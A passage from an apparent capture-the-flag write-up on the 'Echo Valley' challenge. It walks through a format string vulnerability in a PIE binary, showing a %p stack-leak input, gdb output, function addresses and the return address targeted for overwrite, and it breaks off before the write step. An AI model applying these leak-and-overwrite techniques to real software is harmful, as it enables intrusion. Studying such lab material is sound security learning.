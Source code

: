 As you can see it wasn't too difficult, but the challenge was a great refresher format string vulns and PIE binaries.

## Echo Valley
_The echo valley is a simple function that echoes back whatever you say to it._<br/>
_But how do you make it respond with something more interesting, like a flag?_

This challenge is a bit more difficult as we will have to do some writing using format string vulnerabilities

It once again provides a binary ```valley``` and its source code ```valley.c```

```checksec``` shows me that PIE is enabled on this binary.

Source code contains functions ```echo_valley``` and ```print_flag```.<br/>
```echo_valley``` has an infinite loop which takes an input of maximum 100 bytes, and prints it back using ```printf(buf)``` which results in a format string vulnerability. We can also exit this function by providing "exit" as the input.<br/>
So just like in the previous challenge we want to somehow return to ```print_flag``` function. I'll load up the binary in gdb and start printing values off of stack.

```
gef➤  r
Welcome to the Echo Valley, Try Shouting: 
%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
You heard in the distance: 0x7fffffffd930.(nil).(nil).0x5555555596fc.(nil).0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0xa2e7025.(nil).(nil).(nil).0x59ff645a06328500.0x7fffffffdb60.0x555555555413.0x1.0x7ffff7dc6ca8.0x7fffffffdc60.0x555555555401.
```
&nbsp;

Hmm okay so just like before, there are two addresses that stand out to me: ```0x555555555413``` and ```0x555555555401```<br/>
I decided to print addresses of all the functions and then compare them to those two addresses
```
gef➤  p echo_valley
$1 = {void ()} 0x555555555307 <echo_valley>
gef➤  p main
$2 = {int ()} 0x555555555401 <main>
gef➤  p print_flag
$3 = {void ()} 0x555555555269 <print_flag>
```
&nbsp;

Looks like ```0x555555555401``` is just the address of ```main```. What about the other one?<br/>
Let's disassemble ```main``` and check out what is on that address

```
gef➤  disassemble main
Dump of assembler code for function main:
   0x0000555555555401 <+0>:	endbr64
   0x0000555555555405 <+4>:	push   rbp
   0x0000555555555406 <+5>:	mov    rbp,rsp
   0x0000555555555409 <+8>:	mov    eax,0x0
   0x000055555555540e <+13>:	call   0x555555555307 <echo_valley>
   0x0000555555555413 <+18>:	mov    eax,0x0
   0x0000555555555418 <+23>:	pop    rbp
   0x0000555555555419 <+24>:	ret
End of assembler dump.
```

```0x555555555413``` holds the next instruction after the call to ```echo_valley```. That means it's the return address!<br/>
If I could somehow overwrite it with the address of print_flag I could get retrieve the flag.

First I'll summorize what we already know.
1. return address is somewhere on the stack and has an offset of ```0x413``` from the base address of where the program gets loaded which is ```0x555555555000``` in this example
```